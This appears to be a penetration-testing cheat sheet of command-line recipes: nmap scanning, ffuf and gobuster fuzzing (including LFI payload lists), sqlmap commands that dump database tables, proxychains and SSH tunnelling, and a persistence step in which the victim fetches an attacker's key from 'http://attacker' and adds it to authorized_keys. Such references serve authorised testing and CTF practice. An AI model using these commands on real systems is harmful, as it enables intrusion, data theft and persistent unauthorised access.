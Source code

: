 nmap
---
1. `nmap -sSV -Pn -p- -A <target>`
2. `nmap -sU -v <target> --min-rate=50`

Sub-domain Enum
---
1. `ffuf -w SecLists/Discovery/DNS/subdomains-top1million-20000.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/' -H 'HOST: FUZZ.website.com' -fs 2309`
3. `python3 sublist3r -d <domain>`

Sub-Directoy Enum
---
1. `ffuf -w SecLists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u "http://<SERVER_IP>:<PORT>/FUZZ" -recursion -recursion-depth 1 -e .php`
2. `gobuster dir -x php,txt -u 10.129.255.70 -w /usr/share/wordlists/dirb/common.txt`

Parameter Fuzzing
---
1. `ffuf -w SecLists/Fuzzing/LFI/LFI-Jhaddix.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=FUZZ' -fs 2287`
2. `ffuf -w SecLists/Discovery/Web-Content/burp-parameter-names.txt:FUZZ -u http://<SERVER_IP>:<PORT>/admin/admin.php -X POST -d 'FUZZ=key' -H 'Content-Type: application/x-www-form-urlencoded' -fs xxx`

Page Type Fuzzing
---
1. `ffuf -w SecLists/Discovery/Web-Content/web-extensions.txt:FUZZ -u "http://<SERVER_IP>:<PORT>/indexFUZZ"`

SQLmap
---
- GET: `sqlmap -u "http://<SERVER_IP>:<PORT>/index.php?id=1"`
- POST: `sqlmap -u "http://<SERVER_IP>:<PORT>/index.php" --data "id=1"`
- Cookies: `sqlmap -u "http://<SERVER_IP>:<PORT>/index.php" --cookie="id=1*"`
- JSON:  `Copy Request Headers --> req.txt; add in the JSON with "" surrounding the variables; sqlmap -r req.txt`


1. `sqlmap -u "http://<SERVER_IP>:<PORT>/index.php" --data "id=1" --dbs`
2. `sqlmap -u "http://<SERVER_IP>:<PORT>/index.php" --data "id=1" -D <database> --tables`
3. `sqlmap -u "http://<SERVER_IP>:<PORT>/index.php" --data "id=1" -D <database> -T <table> --dump`
4. 3. `sqlmap -u "http://<SERVER_IP>:<PORT>/index.php" --data "id=1" -D <database> -T <table> -C <column> --dump`

`--flush-session` to start again

`--no-cast` to ensure correct data is gotten from blind sql

`--risk=3` for more aggressive SQLi detection

manually specify number of union columns with `--union-cols=n`

Proxy chains
---
```
edit /etc/proxychains4.conf 

examples:
http <ip> <port>
socks5 <victim service> <victim port> <user> <password>

$ proxychains ssh user@<ip>
```

SSH port forwarding
---

append your pub key to `/home/user/.ssh/authorized_keys`

On your attacker machine:

`ssh -L <local port>:<victim service>:<victim port> <victim>@<ip>`

OR using dynamic forwarding for attacks

`ssh -D <local port> <victim>@<ip>`


Adding your SSH to the victim
---

Append your public to the victim's ~/.ssh/authorized_keys
```
On attacker:
ssh-keygen

On victim:
wget http://attacker/id_rsa.pub
cat id_rsa.pub >> ~/.ssh/authorized_keys
```

Other stuff
---
- Check SSL cert
- Check email domains
- Check 404 pages
- Try both `/tmp` and `/dev/shm` for file writes

